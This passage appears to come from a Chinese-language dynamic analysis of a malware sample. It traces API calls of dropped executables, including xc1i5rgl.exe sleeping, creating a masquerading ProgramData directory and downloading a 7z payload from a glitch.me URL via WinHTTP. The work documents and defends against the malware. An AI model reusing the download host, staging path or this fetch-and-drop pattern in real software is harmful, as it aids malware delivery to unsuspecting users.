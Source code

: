 奇怪的是

```c
WideCharToMultiByte ( CP_UTF8, 0, "Cannot open archive 'C:\ProgramData\MicrosoftSyncData\jrir121a.7z'", 66, 0x01306c48, 66, NULL, NULL )
```

所以进程就退出了

### xc1i5rgl.exe

一来就睡30秒

```c
Sleep ( 300000 )
```

之前4z4sytf2.exe干了一些事情后是睡了36秒,然后寻找文件jrir121a.7z

xc1i5rgl.exe先睡30秒,然后醒,然后干活

4z4sytf2.exe后睡,后醒

xc1i5rgl.exe 睡醒后创建目录

```c
CreateDirectoryW ( "C:\", NULL )
CreateDirectoryW ( "C:\ProgramData\", NULL )
CreateDirectoryW ( "C:\ProgramData\MicrosoftSyncData\", NULL )
```

然后联网

```c
WinHttpCrackUrl ( "https://internal-hot-addition.glitch.me/a427e66e3a94f85b4a8d", 60, 0, 0x0220f564 )
WinHttpOpen ( 
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36 Edg/88.0.100.0",
 WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
NULL, NULL, 0 )

WinHttpConnect ( 0x0102fa20, "internal-hot-addition.glitch.me", INTERNET_DEFAULT_HTTPS_PORT, 0 )
WinHttpOpenRequest ( 0x0103b1d8, "GET", "/a427e66e3a94f85b4a8d", NULL, NULL, NULL, WINHTTP_FLAG_SECURE )
WinHttpSetOption ( 0x0103ba38, WINHTTP_OPTION_CONNECT_TIMEOUT, 0x0220f0c8, 4 )
WinHttpSendRequest ( 0x0103ba38, NULL, 0, NULL, 0, 0, 0 )

WinHttpSetOption ( 0x0103ba38, WINHTTP_OPTION_SECURITY_FLAGS, 0x0220f0cc, 4 )
WinHttpSendRequest ( 0x0103ba38, NULL, 0, NULL, 0, 0, 0 )
WinHttpReceiveResponse ( 0x0103ba38, NULL )
```

然后是写入文件操作

```c
CreateFileW ( "C:\ProgramData\MicrosoftSyncData\jrir121a.7z",
 GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0x0220ef14,
 CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL )

WinHttpQueryDataAvailable ( 0x0103ba38, 0x0220f0d8 )
WinHttpReadData ( 0x0103ba38, 0x0105ffd8, 1446, 0x0220f0b8 )
WinHttpQueryDataAvailable ( 0x0103ba38, 0x0220f0d8 )
WinHttpReadData ( 0x0103ba38, 0x0108e190, 0, 0x0220f0b8 )
WriteFile ( 0x000005d4, 0x010eb2c8, 1446, 0x0220d4ec, NULL )

WinHttpCloseHandle (   )
WinHttpCloseHandle (   )
```
